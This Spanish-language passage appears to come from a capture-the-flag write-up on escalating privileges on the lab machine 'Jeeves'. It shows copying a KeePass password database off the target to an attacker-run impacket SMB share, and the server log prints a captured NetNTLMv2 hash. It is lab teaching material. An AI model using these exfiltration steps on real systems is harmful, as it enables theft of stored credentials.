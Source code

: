 ## Escalada de privilegios (First way)

Si nos vamos a la carpeta `Documents`, veremos un archivo `CEH.kdbx`:

```bash wrap=false
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx  
```

Este archivo es usado por **Keepass** para gestionar contraseñas. Vamos a pasarnos el archivo a nuestra máquina:

```bash wrap=false
PS C:\Users\kohsuke\Documents> copy CEH.kdbx \\10.10.14.15\smbFolder\CEH.kdbx
```

```bash wrap=false
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49683)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:178c0c6348e43e474b7df012e5568259:01010000000000000045dad55644dc013104a786e78793a200000000010010004f007800520065004500560079006800030010004f00780052006500450056007900680002001000460074005a005400670073007300790004001000460074005a0054006700730073007900070008000045dad55644dc01060004000200000008003000300000000000000000000000003000003cb5d2fda5e9245e591d5c087b98b9c2e8b30aec5a3b3116152d072e3e5910ca0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003500000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.10.10.63,49683)
[*] Remaining connections []
```

Ahora si nos abrimos este archivo con el gestor `keepassxc` vemos que está protegido por contraseña:
